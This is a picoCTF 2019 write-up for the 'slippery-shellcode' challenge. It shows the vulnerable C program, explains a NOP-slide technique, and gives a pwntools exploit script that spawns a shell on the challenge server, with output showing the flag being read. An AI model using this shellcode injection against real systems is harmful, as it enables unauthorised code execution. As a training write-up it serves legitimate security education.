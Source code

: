 # slippery-shellcode
Binary Exploitation, 200 points

## Description:
> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```


## Solution:

This challenge is similar to last year's [shellcode](/2018_picoCTF/shellcode.md). The difference is that last year the program jumped to the start of the buffer, and this year it jumps to a random location within the first 256 bytes of the buffer. So, to overcome this, we prepend a *nop slide* to our shellcode. 

In other words, our payload will look like:

```
nop;nop;nop;...;nop;shellcode;
```

It doesn't matter where we fall within the nop-slide, we will execute `nop`s until we get to the shellcode.

The script:

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/slippery-shellcode_1_56175d41b0400eb642e2d2f0658b0506/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start()

shellcode = asm(shellcraft.sh())
io.recvuntil("Enter your shellcode:")
payload = fit({256: shellcode}, filler = asm(shellcraft.nop()))
io.sendline(payload)

io.interactive()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/slippery-shellcode# python exploit.py
[*] '/media/sf_CTFs/pico/slippery-shellcode/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.YEGLF5P9Cq'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/slippery-shellcode_1_56175d41b0400eb642e2d2f0658b0506'
[+] Starting remote process '/problems/slippery-shellcode_1_56175d41b0400eb642e2d2f0658b0506/vuln' on 2019shell1.picoctf.com: pid 1968939
[*] Switching to interactive mode

\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90jhh///sh/bin\x89h\x814$ri1Qj\x04YQ1j\x0bX?
Thanks! Executing from a random location now...
$ $ ls
flag.txt  vuln    vuln.c
$ $ cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_3898c0fe}
```